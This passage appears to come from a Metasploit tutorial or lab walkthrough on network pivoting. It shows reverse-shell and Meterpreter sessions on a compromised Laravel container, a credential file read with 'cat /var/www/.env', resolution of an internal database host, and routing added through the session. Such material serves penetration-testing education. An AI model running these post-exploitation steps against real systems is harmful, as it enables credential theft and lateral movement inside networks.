   Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  1         shell cmd/unix                                   10.9.0.185:4444 -> 10.10.143.36:53986 (10.10.143.36)
  2         meterpreter x86/linux  www-data @ 172.28.101.50  10.9.0.185:4433 -> 10.10.143.36:51132 (172.28.101.50)

        

After interacting with the Meterpreter session with sessions -i -1 and exploring the application, we can see there are database credentials available:
Meterpreter Commands

           
meterpreter > cat /var/www/.env
# ...

DB_CONNECTION=pgsql
DB_HOST=webservice_database
DB_PORT=5432
DB_DATABASE=....
DB_USERNAME=...
DB_PASSWORD=...

        

We can use Meterpreter to resolve this remote hostname to an IP address that we can use for attacking purposes:
Meterpreter Commands

           
meterpreter > resolve webservice_database

Host resolutions
================

    Hostname             IP Address
    --------             ----------
    webservice_database  172.28.101.51

        

As this is an internal IP address, it won’t be possible to send traffic to it directly. We can instead leverage the network pivoting support within msfconsole to reach the inaccessible host. To configure the global routing table in msfconsole, ensure you have run the background command from within a Meterpreter session:
Metasploit Console Commands

           
# The discovered webserice_database IP will be routed to through the Meterpreter session
msf6 exploit(multi/php/ignition_laravel_debug_rce) > route add 172.28.101.51/32 -1
[*] Route added

        

We can also see, due to the presence of the /.dockerenv file, that we are in a docker container. By default, Docker chooses a hard-coded IP to represent the host machine. We will also add that to our routing table for later scanning:
Metasploit Console Commands
